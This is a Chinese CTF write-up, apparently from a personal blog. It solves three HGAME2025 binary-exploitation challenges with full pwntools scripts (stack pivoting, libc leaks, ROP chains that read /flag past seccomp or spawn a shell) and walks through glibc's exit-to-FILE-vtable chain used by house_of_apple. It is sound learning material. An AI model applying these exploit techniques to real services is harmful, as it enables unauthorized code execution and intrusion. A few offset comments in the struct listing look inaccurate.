






##### 1:[HGAME2025]ezstack

一道栈迁移的题目,特别之处在于它把监听端口的功能给整合了进去.

```c++
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  socklen_t addr_len; // [rsp+Ch] [rbp-44h] BYREF
  struct sockaddr addr; // [rsp+10h] [rbp-40h] BYREF
  int optval; // [rsp+2Ch] [rbp-24h] BYREF
  struct sockaddr s; // [rsp+30h] [rbp-20h] BYREF
  __pid_t v7; // [rsp+44h] [rbp-Ch]
  int v8; // [rsp+48h] [rbp-8h]
  int fd; // [rsp+4Ch] [rbp-4h]

  signal(17, (__sighandler_t)1);
  fd = socket(2, 1, 6);
  if ( fd < 0 )
  {
    perror("socket error");
    exit(1);
  }
  memset(&s, 0, sizeof(s));
  s.sa_family = 2;
  *(_WORD *)s.sa_data = htons(0x270Fu);
  *(_DWORD *)&s.sa_data[2] = htonl(0);
  optval = 1;
  if ( setsockopt(fd, 1, 2, &optval, 4u) < 0 )
  {
    perror("setsockopt error");
    exit(1);
  }
  if ( bind(fd, &s, 0x10u) < 0 )
  {
    perror("bind error");
    exit(1);
  }
  if ( listen(fd, 10) < 0 )
  {
    perror("listen error");
    exit(1);
  }
  addr_len = 16;
  while ( 1 )
  {
    v8 = accept(fd, &addr, &addr_len);
    if ( v8 < 0 )
      break;
    v7 = fork();
    if ( v7 == -1 )
    {
      perror("fork error");
      exit(1);
    }
    if ( !v7 )
    {
      handler(v8);
      close(v8);
      exit(0);
    }
    close(v8);
  }
  perror("accept error");
  exit(1);
}
```

看不懂也没事,我把这玩意喂给了ai,ai告诉我这个程序会监听端口9999,并且告诉我具体操作逻辑在handler函数里.

```c++
__int64 __fastcall handler(unsigned int a1)
{
  __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = seccomp_init(2147418112LL);
  seccomp_rule_add(v2, 0LL, 59LL, 0LL);
  seccomp_rule_add(v2, 0LL, 322LL, 0LL);
  seccomp_load(v2);
  print(a1, "Some gossip about Vidar here.\n");
  print(a1, "But you'd have to break my vulnerability to tell you.\n");
  print(a1, "侃(锝°兓蠅銉伙健)賵\n");
  print(a1, "Are you ready?Let's go!\n");
  vuln(a1);
  print(a1, &unk_4020F6);
  return 0LL;
}
```

可以看到了设置了沙箱,ban掉了execve的系统调用.

```c++
ssize_t __fastcall vuln(unsigned int a1)
{
  char buf[80]; // [rsp+10h] [rbp-50h] BYREF

  print(a1, &unk_402018);
  print(a1, "That's all.\n");
  print(a1, "Good luck.\n");
  return read(a1, buf, 0x60uLL);
}
```

vuln里面就是个普通的栈溢出,可以溢出0x20字节.


于是我们先构造第一次栈迁移,提供更大的空间.

```python
from pwn import *

context.log_level='debug'
#r=remote("node1.hgame.vidar.club",30837)
r=remote("127.0.0.1",9999)
r.recvuntil(b"Good luck.")
bss_add=0x404800
read_add_0=0x4013D9
read_add=0x401420
r.send(b"a"*0x50+p64(bss_add)+p64(read_add_0))
```

然后进行第二次栈迁移,通过输出got表来泄露libc地址,并再次进行栈迁移,准备进行下一次读取.

```python
rdi_add=0x401713
rsir15_add=0x401711
read_got=0x404068
bss_2=0x404900
write_plt=0x401190
learet_add=0x4013cb
r.recvuntil(b"Good luck.\n")
r.send(p64(bss_2)+p64(rsir15_add)+p64(read_got)+p64(0)+p64(write_plt)+p64(rsir15_add)+p64(bss_2)+p64(0)+p64(read_add)+p64(learet_add)+p64(bss_add-0x50)+p64(learet_add))

libc_read=u64(r.recv(6).ljust(8,b"\x00"))
print(hex(libc_read))
```

但这题并没有为我们直接提供libc文件,所以我们将remote的地址改为线上环境,泄露线上环境的libc的read函数地址,然后将它提交给工具网站搜索出正确版本的libc.



(这里基本已经确定就是libc2.31了)

之后我们下载对应版本的libc,按照正常的流程解题.

```c++
from pwn import *

context.log_level='debug'
r=remote("node1.hgame.vidar.club",30837)
#r=remote("127.0.0.1",9999)
r.recvuntil(b"Good luck.")
bss_add=0x404800
read_add_0=0x4013D9
read_add=0x401420
r.send(b"a"*0x50+p64(bss_add)+p64(read_add_0))
rdi_add=0x401713
rsir15_add=0x401711
read_got=0x404068
bss_2=0x404900
write_plt=0x401190
learet_add=0x4013cb
r.recvuntil(b"Good luck.\n")
r.send(p64(bss_2)+p64(rsir15_add)+p64(read_got)+p64(0)+p64(write_plt)+p64(rsir15_add)+p64(bss_2)+p64(0)+p64(read_add)+p64(learet_add)+p64(bss_add-0x50)+p64(learet_add))

libc_read=u64(r.recv(6).ljust(8,b"\x00"))
print(hex(libc_read))
r.recv()
bss_3=0x404a00
libc=ELF("./libc-2.31.so")
libc_base=libc_read-libc.sym["read"]     
open_add=libc.sym["open"]+libc_base
read_add=libc_read
write_add=libc.sym["write"]+libc_base
rdxr12_add=0x119431+libc_base
#movraxrdi_add=0x5b521+libc_base
rax_add=0x36174+libc_base
syscall_add=0x630a9+libc_base
print(hex(libc_base))
pause()
r.send(p64(bss_3)+p64(rsir15_add)+p64(bss_3)+p64(0)+p64(rdxr12_add)+p64(0x100)+p64(0)+p64(read_add)+p64(learet_add)+p64(0)*3)
pause()
r.send(b"/flag\x00\x00\x00"+p64(rdi_add)+p64(bss_3)+p64(rsir15_add)+p64(0)+p64(0)+p64(rdxr12_add)+p64(0)+p64(0)+p64(rax_add)+p64(2)+p64(syscall_add)+p64(rdi_add)+p64(5)+p64(rsir15_add)+p64(bss_3+0x200)+p64(0)+p64(rdxr12_add)+p64(0x50)+p64(0)+p64(read_add)+p64(rdi_add)+p64(4)+p64(write_add))


r.interactive()
```

成功打通.

##### 2:[HGAME2025]countingpetals

一道数组溢出.

```c++
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-A4h]
  int v5; // [rsp+10h] [rbp-A0h]
  int v6; // [rsp+14h] [rbp-9Ch]
  __int64 v7[17]; // [rsp+18h] [rbp-98h] BYREF
  int v8; // [rsp+A0h] [rbp-10h] BYREF
  int v9; // [rsp+A4h] [rbp-Ch]
  unsigned __int64 v10; // [rsp+A8h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v4 = 0;
  while ( 1 )
  {
    v5 = 0;
    v6 = rand() % 30;
    v9 = 0;
    puts("\nAs we know,there's a tradition to determine whether someone loves you or not...");
    puts("... by counting flower petals when u are not sure.");
    puts("\nHow many flowers have you prepared this time?");
    __isoc99_scanf("%d", &v8);
    if ( v8 > 16 )
    {
      puts("\nNo matter how many flowers there are, they cannot change the fact of whether he or she loves you.");
      puts("Just a few flowers will reveal the answer,love fool.");
      exit(0);
    }
    puts("\nTell me the number of petals in each flower.");
    while ( v9 < v8 )
    {
      printf("the flower number %d : ", (unsigned int)++v9);
      __isoc99_scanf("%ld", &v7[v9 + 1]);
    }
    puts("\nDo you want to start with 'love me'");
    puts("...or 'not love me'?");
    puts("Reply 1 indicates the former and 2 indicates the latter: ");
    __isoc99_scanf("%ld", v7);
    puts("\nSometimes timing is important, so I added a little bit of randomness.");
    puts("\nLet's look at the results.");
    while ( v5 < v8 )
    {
      printf("%ld + ", v7[++v5 + 1]);
      v7[0] += v7[v5 + 1];
    }
    printf("%d", (unsigned int)v6);
    v7[0] += v6;
    puts(" = ");
    if ( (v7[0] & 1) == 0 )
      break;
    puts("He or she doesn't love you.");
    if ( v4 > 0 )
      return 0;
    ++v4;
    puts("What a pity!");
    puts("I can give you just ONE more chance.");
    puts("Wish that this time they love you.");
  }
  puts("Congratulations,he or she loves you.");
  return 0;
}
```

主要漏洞点在于输入花束中花的数量的循环遍历的实际上是v7[1]---v7[17]而非v7[0]---v7[16],导致可以覆盖到_int32的v8和v9.

那么开始编写脚本.首先,我们希望泄露libc基址,其次,我们还需要得到canary值(不过这倒不是必须的).因此我们将v8设为一个能覆盖到rbp后地址的值,并使v9大于v8以结束读入循环,防止破坏栈上数据.之后,我们进入第二次机会.

```python
from pwn import *

#r=process("./vuln")
#gdb.attach(r)
r=remote("node1.hgame.vidar.club",30092)
pause()

r.sendline(b"16")
for i in range(15):
	r.recvuntil(b":")
	r.sendline(b"1")
num1=32+64*(2**32)
r.sendline(str(num1))
r.sendline(b"1")
r.recvuntil(b"Let's look at the results.")
for i in range(16):
	r.recvuntil(b"+ ")
canary=(int(r.recvuntil(b" ")[:-1]))
r.recvuntil(b"+ 1 + ")
libc_base=(int(r.recvuntil(b" ")[:-1])+2**64)%2**64-0x29D90
print(hex((canary+2**64)%2**64))
print(hex(libc_base))
```

在第二次机会中,我们使v9小于v8,然后我们将我们的rop链覆盖到返回地址,完成getshell.

```python

r.recvuntil(b"What a pity!")
r.recvuntil(b"How many flowers have you prepared this time?")
r.sendline(b"16")
for i in range(15):
	r.recvuntil(b":")
	r.sendline(b"1")

print("b1")
pause()

num2=32+16*(2**32)
r.recvuntil(b":")
r.sendline(str(num2))
print("b2")
pause()
r.recvuntil(b":")
r.sendline(str(canary))
r.recvuntil(b":")
r.sendline("1")
libc=ELF("./libc.so.6")
rdi_add=0x2a3e5+libc_base
rsi_add=0x2be51+libc_base
rdx_add=0x904a9+libc_base#in fact,this is pop rdx ;pop rcx; ret;
rax_add=0x45eb0+libc_base
syscall_add=0x91316+libc_base
binsh_add=next(libc.search(b"/bin/sh"))+libc_base
#sys_add=libc.sym["system"]+libc_base
r.recvuntil(b":")
r.sendline(str(rdi_add))
r.recvuntil(b":")
r.sendline(str(binsh_add))
r.recvuntil(b":")
r.sendline(str(rsi_add))
r.recvuntil(b":")
r.sendline(str(0))
r.recvuntil(b":")
r.sendline(str(rdx_add))
r.recvuntil(b":")
r.sendline(str(0))
r.recvuntil(b":")
r.sendline(str(0))
r.recvuntil(b":")
r.sendline(str(rax_add))
r.recvuntil(b":")
r.sendline(str(59))
r.recvuntil(b":")
r.sendline(str(syscall_add))

r.interactive()
```

这题是可以通过控制v9的值避开canary的,不过我没这么做.

##### 3:format

格式化字符串,但限制了格式化字符串的长度,导致只能泄露一个栈地址.之后可以通过int和unsigned_int的区别得到一个超大的栈溢出.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char format[4]; // [rsp+0h] [rbp-10h] BYREF
  signed int v5; // [rsp+4h] [rbp-Ch] BYREF
  int v6; // [rsp+8h] [rbp-8h] BYREF
  int i; // [rsp+Ch] [rbp-4h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  printf("you have n chance to getshell\n n = ");
  if ( (int)__isoc99_scanf("%d", &v6) <= 0 )
    exit(1);
  for ( i = 0; i < v6; ++i )
  {
    printf("type something:");
    if ( (int)__isoc99_scanf("%3s", format) <= 0 )
      exit(1);
    printf("you type: ");
    printf(format);
  }
  printf("you have n space to getshell(n<5)\n n = ");
  __isoc99_scanf("%d\n", &v5);
  if ( v5 <= 5 )
    vuln(v5);
  return 0;
}
ssize_t __fastcall vuln(unsigned int a1)
{
  char buf[4]; // [rsp+1Ch] [rbp-4h] BYREF

  printf("type something:");
  return read(0, buf, a1);
}
```

那么我们利用栈溢出将程序的执行流返回到`printf(format);`的位置.由于format实际上是指rbp-0x10,所以我们可以通过更改rbp的值控制vuln返回后的rbp,使它指向一个我们伪造的栈空间:

```python
from pwn import *

r=process("./vuln")
pause()
context.log_level='debug'
r.recvuntil(b"you have n chance to getshell\n n = ")
r.sendline(b"1")
pay="%p\n"
r.recvuntil(b"type something:")
r.send(pay)
r.recvuntil("you type: ")
stack_add=int(r.recvuntil(b"you")[:-3],16)
print(hex(stack_add))
r.recvuntil(b"n = ")
r.sendline(b"-1")
#r.sendline(b"-1")
printf_add=0x4012CF

pay=b'aaaaa'+p64(stack_add+0x2130)+p64(printf_add)+b"%3$p"+b"\x00\x00\xff\xff"+p64(0)+p64(0)
#
r.sendline(pay)
```

这样,我们就能泄露libc基址,通过ret2libcgetshell.

```python
r.recvuntil(b"type something:")
libc_base=int(r.recvuntil(b"you")[:-3],16)-0x1147E2
print(hex(libc_base))
r.recvuntil(b"n = ")
r.sendline(b"-1")
libc=ELF("./libc.so.6")
sys_add=libc.sym["system"]+libc_base
binsh_add=next(libc.search(b"/bin/sh"))+libc_base
rdi_add=0x2a3e5+libc_base
rsi_add=0x2be51+libc_base
rdxr12_add=0x11f2e7+libc_base
rax_add=0x045eb0+libc_base
syscall_add=0x91316+libc_base
pay2=b'a'+p64(stack_add+0x2130)+p64(rdi_add)+p64(binsh_add)+p64(rsi_add)+p64(0)+p64(rdxr12_add)+p64(0)*2+p64(rax_add)+p64(0x3b)+p64(syscall_add)
r.sendline(pay2)
r.interactive()
```

令人好奇的是不知道为什么pay2只需要一个填充字符就达到rbp了,由于当时线上环境已经关了,也就没机会进行进一步验证了.

##### 4:`exit->fcloseall->_IO_cleanup->_IO_flush_all->_IO_wfile_overflow->_IO_wdoallocbuf`利用链代码审计

本来打算照着wp先把剩下两题复现出来的,结果拼尽全力无法战胜house_of_apple.大概是超前研究惩罚太高了...



于是打算先看一下原理.

首先,让我们了解一下IO_FILE是什么.

"FILE 在 Linux 系统的标准 IO 库中是用于描述文件的结构，称为文件流。 FILE 结构在程序执行 fopen 等函数时会进行创建，并分配在堆中。我们常定义一个指向 FILE 结构的指针来接收这个返回值。"

一般来说,我们在题目里看到的那些setbuf()就和这种东西有关.

_IO_FILE的实现代码在struct_FILE.h中,具体结构如下:

```c
struct _IO_FILE
{
  int _flags;//0x0
  char *_IO_read_ptr;//0x8 (由于编译器对齐,它的偏移是0x8)
  char *_IO_read_end;//0x10
  char *_IO_read_base;//0x18
  char *_IO_write_base;//0x20
  char *_IO_write_ptr;//0x28
  char *_IO_write_end;//0x30
  char *_IO_buf_base;//0x38
  char *_IO_buf_end;//0x40
  char *_IO_save_base;//0x48
  char *_IO_backup_base;//0x50
  char *_IO_save_end;//0x58
  struct _IO_marker *_markers;//0x60
  struct _IO_FILE *_chain;//0x68
  int _fileno;//0x70
  int _flags2;//0x74
  __off_t _old_offset;//0x78
  unsigned short _cur_column;//0x80
  signed char _vtable_offset;//0x82
  char _shortbuf[1];//0x83
  _IO_lock_t *_lock;//0x88
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;//0x90
  struct _IO_codecvt *_codecvt;//0x98
  struct _IO_wide_data *_wide_data;//0xa0
  struct _IO_FILE *_freeres_list;//0xa8
  void *_freeres_buf;//0xb0
  size_t __pad5;//0xb8
  int _mode;//0x70
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];//0x74
};
```

而它的外面还会套上\_IO\_FILE\_complete,而\_IO\_FILE\_complete的外面还会被套上_IO_FILE_plus,所以完整的结构会是这样的:

```c
struct _IO_FILE_plus
{
    _IO_FILE    file;
    IO_jump_t   *vtable;//0xd8
}
```

到了这一步,我们还是不知道调用链具体是怎样执行的.所以让我们从exit开始看:

首先,`exit`调用了 `__run_exit_handlers`

```c++
void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
libc_hidden_def (exit)
```

然后, `__run_exit_handlers`调用了`_IO_cleanup`

```c++
__run_exit_handlers (int status, struct exit_function_list **listp,//调用的代码在最后面
		     bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
  if (run_dtors)
    call_function_static_weak (__call_tls_dtors);

  __libc_lock_lock (__exit_funcs_lock);

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (true)
    {
      struct exit_function_list *cur;

    restart:
      cur = *listp;

      if (cur == NULL)
	{
	  /* Exit processing complete.  We will not allow any more
	     atexit/on_exit registrations.  */
	  __exit_funcs_done = true;
	  break;
	}

      while (cur->idx > 0)
	{
	  struct exit_function *const f = &cur->fns[--cur->idx];
	  const uint64_t new_exitfn_called = __new_exitfn_called;

	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);
	      void *arg;

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
	      arg = f->func.on.arg;
	      PTR_DEMANGLE (onfct);

	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      onfct (status, arg);
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    case ef_at:
	      atfct = f->func.at;
	      PTR_DEMANGLE (atfct);

	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      atfct ();
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    case ef_cxa:
	      /* To avoid dlclose/exit race calling cxafct twice (BZ 22180),
		 we must mark this function as ef_free.  */
	      f->flavor = ef_free;
	      cxafct = f->func.cxa.fn;
	      arg = f->func.cxa.arg;
	      PTR_DEMANGLE (cxafct);

	      /* Unlock the list while we call a foreign function.  */
	      __libc_lock_unlock (__exit_funcs_lock);
	      cxafct (arg, status);
	      __libc_lock_lock (__exit_funcs_lock);
	      break;
	    }

	  if (__glibc_unlikely (new_exitfn_called != __new_exitfn_called))
	    /* The last exit function, or another thread, has registered
	       more exit functions.  Start the loop over.  */
	    goto restart;
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  __libc_lock_unlock (__exit_funcs_lock);

  if (run_list_atexit)//一般来说,这个条件会在正常调用exit时被满足.
    call_function_static_weak (_IO_cleanup);

  _exit (status);
}

```

(上面的代码在exit.c中)

`_IO_cleanup`又调用了 ` _IO_flush_all ()`和`_IO_unbuffer_all ()`

```c++
int
_IO_cleanup (void)
{
  int result = _IO_flush_all ();
  _IO_unbuffer_all ();

  return result;
}
```

接下来让我们来看`_IO_flush_all`

```c++
int
_IO_flush_all (void)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;//似乎是一个全局变量,也许接下来我们还能碰到它
      _IO_flockfile (fp);//上个线程锁

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;//一大堆判断

      _IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}
```

它通过一个for循环,遍历整个_IO_file链表

```c++
for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
```

通过large_bin_attack,可以将_IO_list_all覆盖为堆地址.

每个链表有一大堆判断:

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
```

首先,程序会判断这个:

```c
((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base) || (_IO_vtable_offset (fp) == 0 && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)))
```

fp->\_mode <= 0且fp->\_IO\_write\_ptr > fp->\_IO\_write_base,或者 (\_IO\_vtable\_offset (fp) == 0 && fp->\_mode > 0 && (fp->\_wide\_data->\_IO\_write\_ptr > fp->\_wide\_data->\_IO\_write_base)).这两个条件至少要满足一个,程序才会进行\_IO\_OVERFLOW()的判断.

此时,由于我们已经把*vtable指向了\_IO\_wfile\_jumps,所以程序会去执行\_IO\_wfile\_overflow.

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};

```

```c
wint_t
_IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0
      || f->_wide_data->_IO_write_base == NULL)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f);
	  _IO_free_wbackup_area (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
	}
      else
	{
	  /* Otherwise must be currently reading.  If _IO_read_ptr
	     (and hence also _IO_read_end) is at the buffer end,
	     logically slide the buffer forwards one block (by setting
	     the read pointers to all point at the beginning of the
	     block).  This makes room for subsequent output.
	     Otherwise, set the read pointers to _IO_read_end (leaving
	     that alone, so it can continue to correspond to the
	     external position). */
	  if (f->_wide_data->_IO_read_ptr == f->_wide_data->_IO_buf_end)
	    {
	      f->_IO_read_end = f->_IO_read_ptr = f->_IO_buf_base;
	      f->_wide_data->_IO_read_end = f->_wide_data->_IO_read_ptr =
		f->_wide_data->_IO_buf_base;
	    }
	}
      f->_wide_data->_IO_write_ptr = f->_wide_data->_IO_read_ptr;
      f->_wide_data->_IO_write_base = f->_wide_data->_IO_write_ptr;
      f->_wide_data->_IO_write_end = f->_wide_data->_IO_buf_end;
      f->_wide_data->_IO_read_base = f->_wide_data->_IO_read_ptr =
	f->_wide_data->_IO_read_end;

      f->_IO_write_ptr = f->_IO_read_ptr;
      f->_IO_write_base = f->_IO_write_ptr;
      f->_IO_write_end = f->_IO_buf_end;
      f->_IO_read_base = f->_IO_read_ptr = f->_IO_read_end;

      f->_flags |= _IO_CURRENTLY_PUTTING;
      if (f->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
	f->_wide_data->_IO_write_end = f->_wide_data->_IO_write_ptr;
    }
  if (wch == WEOF)
    return _IO_do_flush (f);
  if (f->_wide_data->_IO_write_ptr == f->_wide_data->_IO_buf_end)
    /* Buffer is really full */
    if (_IO_do_flush (f) == EOF)
      return WEOF;
  *f->_wide_data->_IO_write_ptr++ = wch;
  if ((f->_flags & _IO_UNBUFFERED)
      || ((f->_flags & _IO_LINE_BUF) && wch == L'\n'))
    if (_IO_do_flush (f) == EOF)
      return WEOF;
  return wch;
}
```

